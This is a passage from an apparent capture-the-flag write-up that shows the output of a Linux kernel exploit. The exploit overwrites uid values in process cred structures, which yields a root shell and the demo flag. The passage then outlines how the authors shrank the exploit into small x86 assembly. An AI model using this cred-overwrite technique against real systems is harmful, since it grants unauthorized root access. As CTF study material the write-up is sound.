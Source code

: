### Now, there is a *lot* that can go wrong here:

*   We are pretty much YOLO'ing through the `cred` structure, blindly replacing 1000s with 0s.
*   We are writing back a kernel structure, that might have been modified in the meantime (preemption, etc)

But, let's try anyway:

```bash
/ $ /exploit
Found process at 0xffff88807d7d0000
Found process at 0xffff88807d7d0c40
(...)
Found process at 0xffff88807cd04980
Found process at 0xffff88807cd03100
   Found 1000 at index 4
   Found 1000 at index 8
   Found 1000 at index 12
   Found 1000 at index 16
   Found 1000 at index 20
   Found 1000 at index 24
   Found 1000 at index 28
   Found 1000 at index 32
Found process at 0xffff88807cd01880
   Found 1000 at index 4
   Found 1000 at index 8
   Found 1000 at index 12
   Found 1000 at index 16
   Found 1000 at index 20
   Found 1000 at index 24
   Found 1000 at index 28
   Found 1000 at index 32
/ # id
uid=0(root) gid=0(root) groups=1000
/ # cat /flag
shc2024{DEMO_FLAG_DO_NOT_SUBMIT}
```

Success!

# Making it tiny

We will use the framework described at [https://stackoverflow.com/questions/53382589/smallest-executable-program-x86-64-linux](https://stackoverflow.com/questions/53382589/smallest-executable-program-x86-64-linux).

What follows is mostly the above C exploit rewritten in x86 assembly, trying to make it as small as possible.
Some techniques used:

*   With above testing, we saw that there is eight of these 1000's, starting at
    offset 4 in the `cred_struct`. We can just zero them out with `rep stosd`.
*   We reuse some registers through the code - the only thing we are calling are
    syscalls, and [ABI says](https://en.wikibooks.org/wiki/X86_Assembly/Interfacing_with_Linux)
    that only `rax`, `rcx` and `r11` are not preserved.
    *   `rdi` keeps the file descriptor through the code
    *   `rdx` keeps the address of our ioctl param buffer
    *   Additionally, `IOCTL_COPY_TO_USER` in `rsi` can be also preserved through few subsequent calls
*   Contents of the ioctl param buffer does not change between reading and writing the `cred` struct
*   All memory variables are declared in the uninitialized area, further shortening what we have
    to pass to the remote system.
